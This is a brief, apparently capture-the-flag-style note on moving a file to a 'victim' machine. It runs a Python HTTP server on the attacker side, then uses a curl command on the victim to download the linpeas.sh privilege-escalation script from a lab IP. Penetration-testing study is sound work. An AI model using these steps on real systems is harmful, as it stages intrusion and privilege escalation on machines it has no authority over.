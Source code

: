 # How to transfer file from your machine to victim's?

1. Open http server using Python
```
python3 -m http.server 80
```
2. On victim's machine type:
```
curl -O http://10.10.14.24/linpeas.sh
```
